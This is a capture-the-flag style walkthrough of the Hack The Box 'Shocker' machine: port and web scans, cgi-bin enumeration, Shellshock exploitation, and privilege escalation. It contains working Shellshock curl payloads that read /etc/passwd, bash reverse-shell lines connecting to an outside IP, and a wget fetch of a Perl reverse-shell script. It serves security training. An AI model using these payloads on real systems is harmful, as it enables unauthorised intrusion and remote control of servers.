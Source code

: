 # Shocker Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -sC -sV -oA shocker 10.10.10.56``

![image](https://user-images.githubusercontent.com/123066149/226357310-160d9812-0522-4479-9126-c9dfb936d848.png)

``nmap --script vuln 10.10.10.56``

![image](https://user-images.githubusercontent.com/123066149/226357364-2f1a6ef5-cb76-45aa-9dbe-1aa2565ce426.png)

``nikto -host http://10.10.10.56``

![image](https://user-images.githubusercontent.com/123066149/226357618-4e8827c0-36ac-4262-8d96-6f39bb768a17.png)

# ${{\color{purple}Initial Foothold}}\ $

``dirb http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/CGIs.txt -t 50``

![image](https://user-images.githubusercontent.com/123066149/226358323-1477f05a-58f6-4cb4-a09b-0f501c1fab3c.png)

``gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 30 -x cgi,php,html``

![image](https://user-images.githubusercontent.com/123066149/226358774-9ff94040-b230-4b9f-80cd-4192b8cadbb0.png)

``gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x sh``

![image](https://user-images.githubusercontent.com/123066149/226358987-9f981b40-2e78-425f-b55c-8e6cc4501907.png)

# ${{\color{purple}Exploitation}}\ $

https://www.sevenlayers.com/index.php/125-exploiting-shellshock

``curl -A "() { ignored; }; echo Content-Type: text/plain ; echo ; echo ; /usr/bin/id" http://10.10.10.56/cgi-bin/user.sh``

![image](https://user-images.githubusercontent.com/123066149/226359725-99a8e315-f5cd-4c97-a665-d35ee18b483c.png)

``curl -A "() { ignored; }; echo Content-Type: text/plain ; echo ; echo ; /bin/cat /etc/passwd" http://10.10.10.56/cgi-bin/user.sh``

![image](https://user-images.githubusercontent.com/123066149/226359889-1dfca83c-36ec-414c-8a28-9d8e413639c8.png)

``curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.16.3/4444 0>&1' http://10.10.10.56/cgi-bin/user.sh``

![image](https://user-images.githubusercontent.com/123066149/226360049-1b28e5c0-6da6-45b4-b402-8f3cd40f2f6a.png)

``tcpdump -i tun0 icmp``

![image](https://user-images.githubusercontent.com/123066149/226360977-54c45416-dd99-4277-a907-282565f43809.png)

``() { :; }; /bin/bash -i >& /dev/tcp/10.10.16.3/8888 0>&1``

![image](https://user-images.githubusercontent.com/123066149/226362205-e35b0eb5-850a-43c9-8981-381bd14795b5.png)


# ${{\color{purple}Privilege Escalation}}\ $

``sudo -l``

![image](https://user-images.githubusercontent.com/123066149/226363790-6c615050-105d-452c-99fd-d788831cab73.png)

``wget http://10.10.16.3:80/perl_pentest_monkey.pl && chmod +x perl_pentest_monkey.pl``

![image](https://user-images.githubusercontent.com/123066149/226364007-ae3f7cf5-6268-44e3-8ee2-49e646b769cd.png)

![image](https://user-images.githubusercontent.com/123066149/226364266-decade33-b8d1-4b2a-a900-04efe2f7cd1e.png)

![image](https://user-images.githubusercontent.com/123066149/226364474-3b850292-695e-42c4-a7db-0081e34dc9bf.png)

# ${{\color{purple}Point of Improvement}}\ $

* Don't hesitate to use several extensions during the recon phase ``-x sh,pl``
* nmap is possible for the discovery part : ``nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd=ls 10.10.10.56``
